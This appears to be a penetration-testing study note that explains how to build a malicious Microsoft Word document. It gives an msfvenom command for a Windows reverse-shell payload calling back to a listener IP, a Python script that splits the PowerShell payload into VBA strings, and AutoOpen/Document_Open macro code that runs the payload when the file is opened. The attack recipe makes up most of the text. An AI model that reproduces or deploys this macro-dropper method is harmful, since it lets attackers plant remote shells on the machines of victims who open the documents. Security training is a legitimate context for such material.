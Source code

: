 ## Malicious Files

### Microsoft Word Macros

The can include Visual Basic for Applications with full access to ActiveX objects and Windows Script Host.

##### Create Payload

1. Use msfvenom to construct the payload using the hta format, but think of what the target will be connecting back to, if using laterally

   ```powershell
   msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=8000 -f hta-psh -o badfile.hta
   ```

2. Open the output file and copy from `"powershell.exe....` to the quote at the end of the encoded payload (not including the `,0` at the end)

3. To generate reverse shell code to insert into a macro, we must split up the command into multiple lines and concatenate them because VBA has a 255 character limit for literal strings, but that limit does not apply to strings stored in variables.

   ```python
   # Python script to split up command
   str = "COMMAND GOES HERE"  # you should only have on set of quotes around your command
   n = 50
   for i in range(0, len(str), n):
   	print "Str = Str + " + '"' + str[i:i+n] + '"'
   ```

4. You can run this command and send the output to the clipboard with xclip

   ```bash
   python ./code-split.py | xclip -selection clipboard
   ```


#### Create macro

1. In Word, select 'View' -> 'Macros'

2. Enter 'MyMacro' for the name and select the current document for 'Macros in:'

3. Create the following procedures

   - Create procedures for AutoOpen and Document_Open to cause the macro to run when the document is opened for the first time or re-opened while already open.  
   - Create a procedure with the exploit code in it and call it from the Open procedures above.  The split code Python generate can then be inserted into the Macro in Word to avoid the 255 character limit.

   ```vbscript
   ' Auto-run procedures
   Sub AutoOpen()
   MyMacro
   End Sub
   
   Sub Document_Open()
   MyMacro
   End Sub
   
   ' Procedure to run reverse shell code
   Sub MyMacro()
   	Dim Str as String
       '<INSERT STRING BUILDER OUTPUT FROM PYTHON>'
       CreateObject("Wscript.shell").Run Str
   End Sub
   ```

4. Be sure to save the containing document as .doc or .docm which support embedded macros, but NOT .docx (this may show as 'Word 97-2003 Document').

5. MAKE SURE YOU FTP TRANSFER IN BINARY MODE!

#### Verify Payload

After transferring the file to Kali, you can verify the payload is intact with olevba

```bash
olevba FILENAME.DOC
```

This will show if it has any VBA scripts in it and what they pertain to.
